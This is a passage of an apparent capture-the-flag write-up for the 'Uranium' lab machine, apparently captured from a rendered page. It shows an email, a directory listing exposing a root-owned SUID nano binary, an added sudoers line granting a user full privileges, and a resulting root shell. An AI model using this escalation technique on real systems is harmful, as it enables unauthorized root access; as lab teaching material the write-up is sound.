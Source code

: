 ```bash
To: "kral4@uranium.thm" <kral4@uranium.thm>
Subject: Hi Kral4
Date: Mon, 30 Aug 2021 20:00:26 +0000
X-Mailer: sendEmail-1.56
MIME-Version: 1.0
Content-Type: multipart/related; boundary="----MIME delimiter for sendEmail-278858.953927742"

This is a multi-part message in MIME format. To properly display this message you need a MIME-Version 1.0 compliant Email program.

------MIME delimiter for sendEmail-278858.953927742
Content-Type: text/plain;
        charset="iso-8859-1"
Content-Transfer-Encoding: 7bit

I think our index page has been hacked again. You know how to fix it, I am giving authorization.

------MIME delimiter for sendEmail-278858.953927742--
```

The mail says that the `root` user has authorized `SUID` privilege to `nano` binary. Let's check it.

```bash
kral4@uranium:/home/kral4$ ls -la
ls -la
total 384
drwxr-x--- 3 kral4 kral4   4096 Aug 30 20:05 .
drwxr-xr-x 4 root  root    4096 Apr 23 08:50 ..
lrwxrwxrwx 1 root  root       9 Apr 25 11:12 .bash_history -> /dev/null
-rw-r--r-- 1 kral4 kral4    220 Apr  9 21:55 .bash_logout
-rw-r--r-- 1 kral4 kral4   3771 Apr  9 21:55 .bashrc
-rwxr-xr-x 1 kral4 kral4 109960 Apr  9 16:35 chat_with_hakanbey
-rw-r--r-- 1 kral4 kral4      5 Aug 30 19:31 .check
drwxrwxr-x 3 kral4 kral4   4096 Apr 10 00:21 .local
-rwsrwxrwx 1 root  root  245872 Aug 30 20:05 nano
-rw-r--r-- 1 kral4 kral4    807 Apr  9 21:55 .profile
-rw-rw-r-- 1 kral4 kral4     38 Apr 10 00:21 user_2.txt
kral4@uranium:/home/kral4$
```

Perfect..! We have `SUID` in the `nano` binary, since we know user `hakanbeys` password, let's add `hakanbey` to the sudoers group.

```bash
# User privilege specification
root            ALL=(ALL:ALL) ALL
hakanbey        ALL=(ALL:ALL) ALL 
```

Now let's get root shell by just executing `sudo su` from user `hakanbey's` account.

```bash
hakanbey@uranium:~$ sudo su
sudo su
root@uranium:/home/hakanbey#
```

